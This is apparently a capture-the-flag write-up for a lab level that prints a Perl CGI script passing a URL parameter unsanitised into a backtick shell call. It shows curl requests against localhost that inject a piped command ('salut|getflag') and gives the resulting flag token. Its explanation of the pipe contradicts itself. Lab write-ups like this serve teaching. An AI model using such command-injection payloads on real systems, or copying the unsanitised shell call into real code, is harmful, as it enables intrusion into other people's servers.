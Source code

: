 # Perl is a language used for web development and system scripts.

- In the script, the '$y' variable is not quoted, and the print statement is surrounded by `` (backtick operator or interpolation operator).

# View the level04.pl script
```bash
cat level04.pl
```

```perl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
# function that print argument y with echo
sub x {
  $y = $_[0];
  print `echo $y 2>&1`; # redirect stderr to stdout
}
# arg of the param function is "x"
x(param("x"));
```

# Use curl to exploit the vulnerability
first test with something 
- curl http://localhost:4747/?x=wassup

- curl http://localhost:4747/?x='salut|getflag'

# It will execute "salut" (equivalent to echo salut), causing an error.
- The command echo salut|getflag tries to pass the output of echo salut as input to getflag. If getflag expects different input or the current user doesn't have the appropriate permissions to execute getflag this way, it will result in an error.
- The | symbol is used to create a pipeline, meaning getflag will try to read from echo, but getflag does not expect "salut" as valid input, and it will fail.

# As a result, getflag will be executed.

# Token obtained:
ne2searoevaevoem4ov4ar8ap
